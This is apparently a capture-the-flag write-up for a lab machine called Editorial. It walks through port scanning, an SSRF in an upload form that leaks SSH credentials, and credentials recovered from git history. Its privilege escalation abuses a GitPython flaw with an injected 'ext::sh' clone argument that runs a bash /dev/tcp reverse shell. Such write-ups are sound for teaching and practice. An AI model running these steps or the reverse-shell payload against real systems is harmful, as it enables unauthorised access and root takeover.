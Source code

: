 ![Editorial](https://github.com/user-attachments/assets/d91dd486-9c41-49fa-a3d8-95556e28591f)

## Reconnaissance & port scanning

Let's start with port enumeration
``` bash
# Nmap 7.94SVN scan initiated Sun Jun 16 15:08:25 2024 as: nmap -sV -sC -vvv -oA logs/initial 10.10.11.20
Nmap scan report for 10.10.11.20 (10.10.11.20)
Host is up, received syn-ack (0.025s latency).
Scanned at 2024-06-16 15:08:25 CEST for 9s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 16 15:08:34 2024 -- 1 IP address (1 host up) scanned in 9.54 seconds
```

The target has open port 80, which suggests web application. 

![01-initial_page](https://github.com/user-attachments/assets/df2eb697-b9b6-4052-baf0-e2928cf7d3d0)

The webpage has two endpoints, the most promising is `/upload` endpoint which contains multiple input fields and the upload functionality:

![02-publish_page](https://github.com/user-attachments/assets/d8e6e830-6b2a-47b3-b081-b219050b5b3d)

## Initial foothold

### Server-side request forgery

The form contains cover upload, which expects images or URL to the image. As the attacks on upload form were fruitless, I've tested if this field could be vulnerable to SSRF attack.
To test it, Burp Intruder can be used:

![image](https://github.com/user-attachments/assets/04b0623f-0fcf-4d58-8e2e-44dd9ce2f1c8)

As we can see, some discrepancies were detected when testing for SSRF on port 5000. After typing the URL and hitting "Preview" button, the image changes:

![image](https://github.com/user-attachments/assets/3c14fa5c-7ddb-48a9-b2e5-b7afacec9257)

The image is in fact a text file, which can be downloaded. The file stores some kind of JSON data response, containing multiple endpoints on the application.
When testing those endpoints on the URL field, one of them proved to be worthy, as it returned an API response containing login and password to the machine:

![image](https://github.com/user-attachments/assets/689b8442-e92f-4541-b27b-ac1f714817fc)

### SSH connection

With those credentials, we can connect to the machine:

``` bash
> ssh dev@10.10.11.20
dev@10.10.11.20's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Oct  4 01:56:05 PM UTC 2024

  System load:  0.01              Processes:             231
  Usage of /:   61.3% of 6.35GB   Users logged in:       1
  Memory usage: 20%               IPv4 address for eth0: 10.10.11.20
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Oct  4 12:59:07 2024 from xx.xx.xx.xx
dev@editorial:~$ id
uid=1001(dev) gid=1001(dev) groups=1001(dev)
dev@editorial:~$ 
```

and capture the user flag.

### Lateral movement

After logging in and exploring the machine, I've discovered that it contain second standard user account, which suggests need for lateral movement.

``` bash
dev@editorial:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
prod:x:1000:1000:Alirio Acosta:/home/prod:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
```

Later, I've discovered the `apps` directory, containing `git` repository. Further exploration discovered, that on some point the developer changed the environment from **prod** to **dev**:

``` bash
dev@editorial:~/apps$ git log

...SNIP...

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

...SNIP...
```

Checking for differences with previous commit to the `b734...` reveals the credentials to user `prod` on the machine.

With them we can easily hop to account `prod`:

``` bash
prod@editorial:~$ id
uid=1000(prod) gid=1000(prod) groups=1000(prod)
prod@editorial:~$ 
```

### Root privileges escalation

Checking for potential entry points for escalation with `sudo -l`:

``` bash
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *

```

Apperantly, the user can execute the python script for cloning repositories. This script utilizes the `git` library. 

``` bash
prod@editorial:~$ pip list | grep -i git
gitdb                 4.0.10
GitPython             3.1.29
```

When checking for potential exploits for given version of `GitPython`, we can find out, that it is vulnerable to [CVE-2022-24439](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858).

With this knowledge, we can craft a malicious script that will be executed during the cloning process. This time I've created a simple reverse shell script:

``` bash
prod@editorial:/tmp$ cat s.sh
/bin/bash -i >& /dev/tcp/xx.xx.xx.xx/1234 0>&1
prod@editorial:/tmp$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh /tmp/s.sh'
```

Which allows to gain access over root:

``` bash
> nc -lnvp 1234
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.20] 47542
root@editorial:/opt/internal_apps/clone_changes# id
id
uid=0(root) git=0(root) groups=0(root)
```
